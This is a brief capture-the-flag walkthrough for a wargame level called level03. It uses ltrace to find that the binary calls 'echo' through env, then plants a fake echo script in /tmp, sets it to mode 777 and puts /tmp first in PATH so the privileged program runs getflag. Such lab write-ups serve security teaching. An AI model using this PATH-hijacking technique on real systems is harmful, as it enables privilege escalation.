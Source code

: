 we execute file level03 and we get "Exploit me" then we use ltrace system("/usr/bin/env echo Exploit me"Exploit me
-> echo "getflag" > /tmp/echo
-> chmod 777 /tmp/echo
-> export PATH=/tmp:$PATH
and we execute level03 again